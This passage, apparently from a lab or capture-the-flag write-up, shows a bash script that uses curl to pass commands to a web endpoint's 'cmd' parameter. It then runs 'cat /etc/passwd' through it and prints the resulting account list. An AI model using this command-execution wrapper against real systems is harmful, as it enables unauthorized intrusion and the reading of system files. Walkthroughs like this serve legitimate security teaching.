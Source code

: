 ```bash

curl \
    -s \
    "http://$HOST/?cmd=$CMD&file=$ACCESS" | \
sed -nr '/<pre>/,/<\/pre>/p;/<\/pre>/q' | \
sed -e 's/.*<pre>//g' -e 's/<\/pre>.*//g' | \
sed '$d'
```

Let's give it a shot.

```
# ./cmd.sh -e "cat /etc/passwd"
```
```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
messagebus:x:106:110::/var/run/dbus:/bin/false
uuidd:x:107:111::/run/uuidd:/bin/false
lightdm:x:108:114:Light Display Manager:/var/lib/lightdm:/bin/false
whoopsie:x:109:117::/nonexistent:/bin/false
avahi-autoipd:x:110:119:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/bin/false
dnsmasq:x:112:65534:dnsmasq,,,:/var/lib/misc:/bin/false
colord:x:113:123:colord colour management daemon,,,:/var/lib/colord:/bin/false
speech-dispatcher:x:114:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
kernoops:x:116:65534:Kernel Oops Tracking Daemon,,,:/:/bin/false
pulse:x:117:124:PulseAudio daemon,,,:/var/run/pulse:/bin/false
rtkit:x:118:126:RealtimeKit,,,:/proc:/bin/false
saned:x:119:127::/var/lib/saned:/bin/false
usbmux:x:120:46:usbmux daemon,,,:/var/lib/usbmux:/bin/false
evilscience:x:1000:1000:evilscience,,,:/home/evilscience:/bin/bash
sshd:x:121:65534::/var/run/sshd:/usr/sbin/nologin
```
